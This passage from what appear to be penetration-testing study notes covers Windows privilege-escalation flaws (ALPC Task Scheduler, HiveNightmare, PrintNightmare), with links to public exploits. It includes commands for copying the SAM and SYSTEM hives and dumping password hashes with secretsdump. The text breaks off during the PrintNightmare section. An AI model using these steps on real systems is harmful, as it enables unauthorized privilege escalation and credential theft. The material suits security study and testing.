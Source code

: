     * ALPC Task Scheduler 0-Day:

        * ALPC endpoint used by Windows Task Scheduler service can be used to write arbitrary DACLs to '.job' files in C:\Windows\tasks directory
        * [the exploit](https://blog.grimm-co.com/2020/05/alpc-task-scheduler-0-day.html) uses ```SchRpcSetSecurity``` API function to call a print job using the XPS printer & hijack the DLL as SYSTEM via Spooler service
    
    * CVE-2021-36934 HiveNightmare (SeriousSam):

        * Windows 10 flaw that causes any user to have rights to read the Windows registry hives
        * offline copies of SAM, SYSTEM & SECURITY registry hives can be created, and password hashes can be extracted from them using tools like ```SecretsDump.py```

        ```cmd
        icacls c:\Windows\System32\config\SAM
        # check permissions on SAM file
        # readable by 'BUILTIN\Users' group
        ```

        ```ps
        # PoC exploit - https://github.com/GossiTheDog/HiveNightmare
        # also requires shadow copies - Windows 10 will have System Protection enabled by default, which uses this
        .\HiveNightmare.exe
        # creates offline copies of hives
        ```

        ```sh
        # transfer the hive copies to attacker machine and crack them
        impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
        ```
    
    * CVE-2021-1675/CVE-2021-34527 (PrintNightmare):

        * flaw in RpcAddPrinterDriver function, which provides the users with SeLoadDriverPrivilege
        * [the exploits](https://github.com/cube0x0/CVE-2021-1675) use this to execute a malicious DLL; [PS script](https://github.com/calebstewart/CVE-2021-1675) also available for LPE

        ```ps
        # check if Spooler service is running, which is required for this vulnerability
        ls \\localhost\pipe\spoolss
        # if it is not running, we get a 'path does not exist' error
